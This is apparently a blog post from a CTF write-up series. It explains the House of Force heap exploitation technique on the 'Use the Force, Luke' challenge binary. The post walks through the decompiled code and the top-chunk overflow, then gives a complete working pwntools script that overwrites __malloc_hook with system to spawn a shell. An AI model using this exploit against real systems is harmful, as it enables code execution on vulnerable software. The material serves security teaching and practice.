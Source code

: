 ```yaml
---
title: "Exploring Heap Exploitation: The House of Force Technique"
layout: post
author: Jorge Moreno
---
```



> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. I downloaded the files from [this writeup](https://diegoaltf4.com/heap-exploitation-0x02/) created by DiegoAltF4.

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk |
| --- | --- |
| USER DATA | USER DATA |
| USER DATA | TOP CHUNK SIZE |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.

![Untitled](images/house-of-force/Untitled.png)

As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now let's decompile the binary and see the code.

```c
undefined8 main(void)

{
  long buf;
  long in_FS_OFFSET;
  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak + -0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    __isoc99_scanf(&DAT_00400b62,&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    __isoc99_scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    local_18 = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(local_18);
    read(0,buffer,buf_size + 8);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `local_18` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will do the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ‘**/bin/sh\x00**’ to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` **a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the **/bin/sh** string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```

![Untitled](images/house-of-force/Untitled%201.png)

After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the **/bin/sh** string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Let's visualize it now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0x0068732f6e69622f` are the string **`/bin/sh`**

![Untitled](images/house-of-force/Untitled%202.png)

![Untitled](images/house-of-force/Untitled%203.png)

We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.

![Untitled](images/house-of-force/Untitled%204.png)

We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` as a parameter to the `system()` function, thus giving us a shell.

![Untitled](images/house-of-force/Untitled%205.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './force', checksec = False)
libc = ELF('./.glibc/glibc_2.28_no-tcache/libc.so.6', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)

io = start()

io.recvuntil(b'system at')
system_leak = int(io.recvline(), 16)
libc.address = system_leak - libc.sym.system

io.recvuntil(b'else at')
heap_leak = int(io.recvline(), 16)

malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))

diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
info(f"0x{diff:02x} bytes to __malloc_hook")

malloc(diff, b'/bin/sh\0')
malloc(1, p64(system_leak))
malloc(heap_leak + 0x30, "")

io.interactive()
```

